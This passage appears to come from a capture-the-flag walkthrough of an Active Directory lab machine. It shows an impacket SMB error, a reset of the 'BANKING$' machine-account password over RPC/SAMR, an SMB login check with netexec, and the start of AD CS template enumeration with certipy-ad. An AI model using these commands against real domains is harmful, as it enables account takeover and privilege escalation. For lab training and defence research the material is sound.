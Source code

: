 ```powershell
           ~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^                                                                                            
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 1092, in login                                                                                           
    if packet.isValidAnswer(STATUS_SUCCESS):                                                                                                                            
       ~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^                                                                                                                             
  File "/usr/lib/python3/dist-packages/impacket/smb3structs.py", line 460, in isValidAnswer                                                                             
    raise smb3.SessionError(self['Status'], self)                                                                                                                       
impacket.smb3.SessionError: SMB SessionError: STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT(The account used is a computer account. Use your global user account or local user account to access this server.)
```

The error shows that impacket tried to use `SMB`, which would not work in this case as we cannot authenticate to SMB.

So we will have to change the protocol to `RPC`.

```powershell
└─$ impacket-changepasswd -protocol rpc-samr -newpass glitch 'retro.vl/BANKING$:banking@dc.retro.vl'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.
```

Now authentication with SMB works

```powershell
└─$ netexec smb $(cat ip) -u 'BANKING$' -p "glitch"    
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [+] retro.vl\BANKING$:glitch
```

# Privilege Escalation #2: Gaining Administrative Access

I did not find anything interesting with the user `BANKING$` on SMB or BloodHound.

So I decided to go to enumerating AD CS with `certipy-ad`.

```powershell
└─$ certipy-ad find -u 'BANKING$' -p glitch -target-ip $(cat ip)                                                                                                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)                                                                                                                                  
                                                                                                                                                                        
[*] Finding certificate templates                                                                                                                                       
[*] Found 34 certificate templates                                                                                                                                      
[*] Finding certificate authorities                                                                                                                                     
[*] Found 1 certificate authority                                                                                                                                       
[*] Found 12 enabled certificate templates                                                                                                                              
[*] Finding issuance policies                                                                                                                                           
```